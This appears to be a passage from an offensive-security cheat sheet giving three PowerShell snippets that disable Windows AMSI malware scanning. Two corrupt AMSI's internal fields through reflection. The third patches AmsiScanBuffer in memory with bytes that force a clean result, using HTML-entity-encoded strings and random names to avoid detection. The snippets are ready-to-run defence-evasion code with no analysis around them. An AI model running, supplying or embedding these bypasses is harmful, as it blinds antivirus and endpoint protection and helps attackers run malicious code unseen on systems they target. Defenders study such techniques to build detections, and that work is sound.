 ## Bypass AMSI with _amsiContext_ (powershell only)
```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

## Bypass AMSI with _AmsiInitFailed_ (powershell only)
```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*InitFailed") {$f=$e}};$f.SetValue($null,$true)
```

## Bypass AMSI by patching (work for .NET binaries too)
```powershell
// more infos here : https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/
$ZQCUW = @"
using System;
using System.Runtime.InteropServices;

public class ZQCUW {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $ZQCUW
$BBWHVWQ = [ZQCUW]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#97;&#109;&#115;&#105;&#46;&#100;&#108;&#108;'))")
$XPYMWR = [ZQCUW]::GetProcAddress($BBWHVWQ, "$([systeM.neT.webUtility]::HtMldECoDE('&#65;&#109;&#115;&#105;&#83;&#99;&#97;&#110;&#66;&#117;&#102;&#102;&#101;&#114;'))")
$p = 0

[ZQCUW]::VirtualProtect($XPYMWR, [uint32]5, 0x40, [ref]$p)
$TLML = "0xB8"
$PURX = "0x57"
$YNWL = "0x00"
$RTGX = "0x07"
$XVON = "0x80"
$WRUD = "0xC3"
$KTMJX = [Byte[]] ($TLML,$PURX,$YNWL,$RTGX,+$XVON,+$WRUD)[System.Runtime.InteropServices.Marshal]::Copy($KTMJX, 0, $XPYMWR, 6)
```
